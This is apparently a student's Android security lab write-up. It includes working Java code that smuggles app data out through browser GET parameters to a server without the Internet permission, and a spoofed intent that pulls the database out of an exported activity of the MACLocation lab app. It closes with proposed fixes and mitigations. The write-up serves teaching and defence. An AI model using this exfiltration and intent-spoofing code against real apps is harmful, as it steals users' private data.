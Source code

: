 # 1 - No-permission apps

In this part, we will exfiltrate some data to a server, without using
the `Internet` permission.

First, we need to setup a web server. Here, it is a localhost server
running on port 3001, so its address is `10.0.2.2:3001` on the emulated
device.

Then, we populate the database on the app:

![Database content](./assets/database_content_p1.png)

When we want to exfiltrate the data, we just have to create an intent to
open our server webpage with GET parameters, like
`http://10.0.2.2:3001/?secret1=abc&secret2=def`.

In our example, the server received this:

![Server request](./assets/server_request_p1.png)

On android and iOS, apps are sandboxed and heavily restricted, as
opposed to desktop apps. If an app wants to access a private resource
(camera, location, etc), it needs to be explicitely allowed to do so by
the OS and the user. The goal is to make these apps as secure and as
privacy-aware as possible. While on desktop all applications are
unrestricted and could access all user files with r/w permissions, on
android even a vulnerable app is limited in its action. it also hints on
illegitimate apps; for examle, the flashlight app shouldn't require
microphone access. The goal of these permissions is to add boundaries to
apps, which greatly reduce the risks to the user.

Permissions are defined in a special file, the Android manifest of the
app. This file will describe all meta-informations about the app, like
which activities are public, what resources the app should use for its
icon, and more important here what permissions are used. In the
following example, an app is requiring the internet permission. Some
permissions aren't necessarily granted though, like the microphone one.
While it needs to be declared, the user can still decide to disable it.

```xml
<uses-permission android:name="android.permission.INTERNET" />
```

However, here our application uses a simple trick to bypass this
permission system. It will open the web browser on a specific page, and
while it usually is quite innocent since the webpage cannot talk back to
the app, it is enough to leak informations using GET parameters. It
should be noted however that, first, the data accessible is only our own
data, which limits the damages possible, and that this method isn't very
discreet, as the user clearly sees its browser opening.

The code used is the following one:

```java
// This will be our URL like http://10.0.2.2:3001/?secret1=abc&secret2=def
StringBuilder evilRequest = new StringBuilder("/?");
for (Item item : mItemsData) {
	// Add each item to the exfiltration URL
	evilRequest
		.append(Uri.encode(item.getTitle()))
		.append("=")
		.append(Uri.encode(item.getInfo()))
		.append("&");
}
// Create the intent to open the browser
Intent intent = new Intent(
	Intent.ACTION_VIEW,
	Uri.parse(url + evilRequest)
);
if (intent.resolveActivity(getPackageManager()) != null) {
	// Start the intent if an an app is able to handle it
	startActivity(intent);
}
```

# 2 - Malicious intents

In the MACLocation app, the `DatabaseActivity.onCreate` method will, as
its name suggests, create the app. It will look at the caller intent and
act differently depending on its action. Here, if the field
`"ITEM_ACTION"` is set to `"GET_ITEMS_ACTION"`, it will retrieve all
database content and send it back to the caller.

The problem is that if a third-party app opens this activity with the
right action, the activity won't check which app the intent is coming
from and will exfiltrate all its database to the external app through
the result intent.

The malicious intent code is the following one:

```java
// Activity intent
Intent i = new Intent(Intent.ACTION_MAIN);
// Explicitely set the component that will receive the intent
i.setComponent(new ComponentName(
	"lbs.lab.maclocation", // Target package
	"lbs.lab.maclocation.DatabaseActivity" // Target activity
));
// MIME data type, equal to `DatabaseActivity.class.getCanonicalName()`
//  Used to trick the DatabaseActivity condition
i.setType("lbs.lab.maclocation.DatabaseActivity");
// Action, here fetch all data, but could also be SET_ITEMS_ACTION to
//  override the database content
i.putExtra(ITEM_ACTION, GET_ITEMS_ACTION);
```

Once the data retrieved, we need to deserialize it by creating our own
implementation of `lbs.lab.maclocation.Item`, and then exfiltrate it
like we did previously in the first part. To find which class to
recreate, we need to look at the logs when trying to deserialize the
object. We get a `ClassNotFoundException` that will then hint us on
which class isn't found, by logging something like `the class
lbs.lab.maclocation.Item cannot be found`. We now know which class we
need to write.

There are currently a few checks in `DatabaseActivity`:
- The MIME data type should be set to
`"lbs.lab.maclocation.DatabaseActivity"`, which is easy to set
- The `"ITEM_ACTION"` field should be set to `"GET_ITEMS_ACTION"`, again
we could guess it using the source code or a decompiler
- The caller activity should be named `MainActivity`, easy to spoof

This last check is the one which should be changed in order to fix this
vulnerability. Instead of checking the value of `getShortClassName()` to
compare the activity names, it should use `getClassName()`, that will
differentiate `lbs.lab.maclocation.MainActivity` and
`lbs.lab.macintent.MainActivity`.

Moreover, in the Android manifest, `DatabaseActivity` is wrongly marked
as `exported`, which makes it accessible to any third-party app through
an intent.

# 3 - Protections and mitigations

There could be several ways to protect against these threats, on several
levels.

On a more general note though, explicit intents should be avoided and
should even maybe be completely discarded. Apps should pass through an
app chooser and not hardwire the target in the source code, which is
error prone and can lead to several attacks like we saw previously.

## 3.1 - Against permission escape: part 1

First, the permissions could be implemented per intent, not per app. If
an app A calls an app B, and B has the internet permission but not A, A
is still able to access internet through B. However, a defense would be
for the intent from A to B to require some kind of permission, which
would force A to declare the internet permission. This would still be
pretty challenging though, as we need to be sure which permissions are
used, otherwise if B suddently adds the camera permission it would break
A even though it doesn't use it.

The solution above could also be completed using a stacktrace of chained
events, to avoid the confused app B to send a third intent that will
look legitimate for the third (or same) app.

## 3.2 - Against data leak: part 2

A way to avoid data leak would be to somehow track the data from B to A.
If the data of B is leaked back to A without a kind of approval, then
the data would be made unusable by the system. This is still a rough
idea though, as this would probably lead to many challenge to face.

Maybe we could also rank the data importance, like the information flow
security lectures we had. A high (important) app would only be able to
share its data to other high apps, and low apps would not be able to
fetch this high data. Or, to continue with data tracking, low apps could
be allowed as long as there isn't an information flow from high data to
low data, ie the data use would be severely restricted.

Related to this suggestion, critical informations related to banking or
health for example should probably be locked behind a password, such
that any legitimate intent would have this token in memory while
external explicit intents wouldn't be able to unlock the data. It goes
without saying that critical activities should also not be publicly
exposed in the Android manifest.

Intents could also use a kind of signature, to avoid spoofing its
origin. This is already something that can - and should - be done, but
the Android kernel should go even further. What we saw earlier is that
to deserialize the data fetched we needed to create our own
implementation of the data object. This shouldn't be allowed, and a
serialized object should only be deserializable by the implementation
in its own app, not by any third-party app, even if the implementation
is the same.
